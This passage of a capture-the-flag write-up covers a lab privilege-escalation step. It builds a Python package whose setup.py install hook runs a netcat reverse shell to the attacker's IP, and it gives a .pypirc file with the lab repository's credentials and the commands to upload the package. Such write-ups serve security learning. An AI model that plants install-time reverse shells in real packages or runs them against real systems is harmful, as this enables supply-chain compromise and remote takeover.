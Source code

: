 {% embed url="https://www.linode.com/docs/guides/how-to-create-a-private-python-package-repository/" %}

And this one on where to inject the malicious code:

{% embed url="https://github.com/mschwager/0wned" %}

First, we need to create a `setup.py` file:

```python
import os
import socket
import subprocess
from setuptools import setup
from setuptools.command.install import install

class Shell(install):
    def run(self):
        if (os.getuid() == 1000):
            os.system('nc -e /bin/bash 10.10.14.13 4444')

setup(name='revshell',
      version='0.0.1',
      description='shell',
      author='test',
      author_email='test',
      url='http://test.com',
      license='MIT',
      zip_safe=False,
      cmdclass={'install': Shell})
```

We also need to create a `.pypirc` file:

```
[distutils]
index-servers = local
[local]
repository: http://pypi.sneakycorp.htb:8080
username: pypi
password: soufianeelhaoui
```

Then, we can download both of these files to the machine and run this command as `developer` (`su` usinng the FTP password):

```bash
HOME=$(pwd)
python3 setup.py sdist register -r local upload -r local
```

This would upload the package. Wait for a bit, and a reverse shell should occur as `low`.

<figure><img src="../../../.gitbook/assets/image (466).png" alt=""><figcaption></figcaption></figure>
